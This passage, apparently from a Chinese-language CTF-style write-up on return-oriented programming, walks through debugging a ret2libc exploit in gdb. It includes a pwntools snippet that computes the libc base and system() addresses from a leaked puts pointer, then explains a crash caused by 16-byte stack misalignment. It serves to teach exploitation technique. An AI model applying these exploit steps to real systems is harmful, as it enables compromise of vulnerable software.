 接個gdb看一下

{% include aligner.html images="posts/2021-08-17-return-oriented-programming/where-are-you-going.png" column=1 %}

~~大哥你要跳去哪裡啊~~

在程式還沒有crash前看一下memory map

{% include aligner.html images="posts/2021-08-17-return-oriented-programming/local-libc.png" column=1 %}

local的libc？

不同版本libc的offset不一樣，換個地址再戰
```py
# Address calculation
puts_runtime = u64(res + b'\x00' * (8-len(res)) )
log.info(f'[1] puts_runtime = {hex(puts_runtime)}')
# libc_base = puts_runtime - 0x80a30 # REMOTE
libc_base = puts_runtime - 0x875a0 # LOCAL
log.info(f'[2] libc_base = {hex(libc_base)}')
# system_runtime = libc_base + 0x4f4e0 #REMOTE
system_runtime = libc_base + 0x55410 # LOCAL
log.info(f'[3] system_runtime = {hex(system_runtime)}')
```

{% include aligner.html images="posts/2021-08-17-return-oriented-programming/into-system.png" column=1 %}

這次跳對地方了，不過

{% include aligner.html images="posts/2021-08-17-return-oriented-programming/do_system-segv.png" column=1 %}

還是壞的

到處Google之後突然發現這個東西

{% include aligner.html images="posts/2021-08-17-return-oriented-programming/google-system-alignment.png" column=1 %}

對齊問題？換個關鍵字之後才知道問題出在哪裡
> *The x86-64 System V ABI guarantees 16-byte stack alignment before a call, so libc system is allowed to take advantage of that for 16-byte aligned loads/stores. If you break the ABI, it's your problem if things crash.*
> 
> *`%rsp` The stack pointer holds the address of the byte with lowest address which is part of the stack. It is guaranteed to be 16-byte aligned at process entry.*

也就是在進行function call的時候，stack必須以16 bytes對齊，也就是`%rsp`必須為以`0`為結尾。任何的`pop`都是以8 bytes為單位移動，雖然大多數情況下都會自動調整，不過在亂搞的情況下還是有機會把地址弄壞

這邊的情況是
```
$rsp   : 0x00007ffe611337a8  →  0x2f2f2f2f2f2f2f2f ("////////"?)
```
結尾為8，也就是沒有對齊
